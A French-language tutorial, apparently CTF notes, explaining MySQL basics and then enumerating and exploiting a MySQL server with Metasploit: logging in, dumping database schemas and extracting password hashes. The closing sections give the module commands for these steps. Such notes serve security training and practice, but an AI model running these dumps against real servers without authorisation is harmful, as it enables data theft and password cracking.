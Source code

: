 # Les bases de MySQL 

## Introduction

SQL (Structured Query Language) est un langage de requête structuré utilisé pour communiquer avec une base de données relationnelle. Il est utilisé pour effectuer des opérations sur les données stockées dans une base de données ou pour modifier les données existantes. Il est principalement utilisé pour la gestion des données dans les systèmes de gestion de bases de données relationnelles (SGBDR), tels que MySQL, Oracle, Sybase, Microsoft SQL Server, PostgreSQL et SQLite.

Le serveur gère toutes les instructions relatives à la base de données, telles que la création, l'édition et l'accès aux données. Il reçoit et gère ces demandes et communique à l'aide du protocole MySQL. L'ensemble du processus peut être décomposé en plusieurs étapes :

* MySQL crée une base de données pour stocker et manipuler les données, en définissant les relations entre chaque table.
* Les clients formulent des requêtes en utilisant des instructions spécifiques en SQL.
* Le serveur répond au client en lui fournissant les informations demandées

MySQL peut fonctionner sur différentes plateformes, qu'il s'agisse de Linux ou de Windows. Il est couramment utilisé comme base de données dorsale pour de nombreux sites web importants et constitue un composant essentiel de la pile LAMP, qui comprend : Linux, Apache, MySQL et PHP.

### Explication des mots clés MySQL

#### Schéma

Dans MySQL, physiquement, un schéma est synonyme de base de données. Vous pouvez remplacer le mot-clé "DATABASE" par "SCHEMA" dans la syntaxe SQL de MySQL, par exemple en utilisant CREATE SCHEMA au lieu de CREATE DATABASE. Il est important de comprendre cette relation car d'autres produits de base de données font une distinction. Par exemple, dans le produit Oracle Database, un schéma ne représente qu'une partie d'une base de données : les tables et autres objets appartenant à un seul utilisateur.

#### Les Hashs :

Les hachages sont, très simplement, le produit d'un algorithme cryptographique qui transforme une entrée de longueur variable en une sortie de longueur fixe.

Dans MySQL, les hachages peuvent être utilisés de différentes manières, par exemple pour indexer des données dans une table de hachage. Chaque hachage possède un identifiant unique qui sert de pointeur vers les données d'origine. Cela permet de créer un index beaucoup plus petit que les données d'origine, ce qui permet de rechercher et d'accéder aux valeurs de manière plus efficace

Cependant, les données que nous allons extraire sont des hachages de mots de passe, qui sont simplement un moyen de stocker des mots de passe qui ne sont pas en clair.

## Enumeration

### Intro sur l'énumération MySQL

MySQL n'est probablement pas le premier point d'appel lorsque vous obtenez des informations initiales sur le serveur. Vous pouvez, essayer de forcer les mots de passe des comptes par défaut si vous n'avez vraiment pas d'autres informations ; cependant, dans la plupart des scénarios CTF, il est peu probable que ce soit la voie que vous soyez censé suivre. En règle générale, vous aurez obtenu des informations d'identification initiales en énumérant d'autres services, que vous pourrez ensuite utiliser pour énumérer et exploiter le service MySQL.

### Ports de base SQL

Le port de base SQL est le port 3306. C'est du TCP/IP.

### Packet nécessaire

Pour l'énumération de MySQL, il faut un client MySQL. Le plus légé est **mysql-client**.
Mais il existe aussi **mysql-workbench** qui est plus complet.

### Outils utilisés pour l'énumation MySQL

On va utiliser Metasploit pour l'énumération de MySQL. On va utiliser le module **auxiliary/scanner/mysql/mysql_login**. Mais il existe aussi des outils comme **SQLMap**, **SQLNinja** et **SQLPing**. Ou encore le script **mysql-enum** de **nmap** : [scitp infos](https://nmap.org/nsedoc/scripts/mysql-enum.html) ou [exploit db](https://www.exploit-db.com/exploits/23081)

### Connexion à MySQL

Pour se connecter à MySQL, on utilise la commande suivante :

```bash
mysql -u <user> -p <password> -h <host> -P <port>
```

### Utilisation de Metasploit

Supposons qu'on ai récupéré le couple USER:PASSWORD, on va utiliser le module **auxiliary/scanner/mysql/mysql_login** de Metasploit.

```bash
msf5 > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary(scanner/mysql/mysql_login) > set RHOSTS
RHOSTS =>
msf5 auxiliary(scanner/mysql/mysql_login) > set PASSWORD
PASSWORD =>
msf5 auxiliary(scanner/mysql/mysql_login) > set USERNAME
USERNAME =>
msf5 auxiliary(scanner/mysql/mysql_login) > run
```
Par défaut l'option `SQL` est `select version()`. Donc cela va nous retourner la version de MySQL.
Mais on peut changer pour `show databases` pour afficher les bases de données.

Plus d'infos sur le module : [ici](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/mysql/mysql_login)


## Exploitation

## Dump des bases de données

Pour dump les bases de données on va utiliser le module **mysql_schemadump** de Metasploit.

```bash
msf5 > use auxiliary/scanner/mysql/mysql_schemadump
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS
RHOSTS =>
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD
PASSWORD =>
msf5 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME
USERNAME =>
msf5 auxiliary(scanner/mysql/mysql_schemadump) > run
```

## Dump des hashs des mots de passe

Pour dump les hashs des mots de passe on va utiliser le module **mysql_hashdump** de Metasploit.

```bash
msf5 > use auxiliary/scanner/mysql/mysql_hashdump
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS
...
msf5 auxiliary(scanner/mysql/mysql_hashdump) > run
```
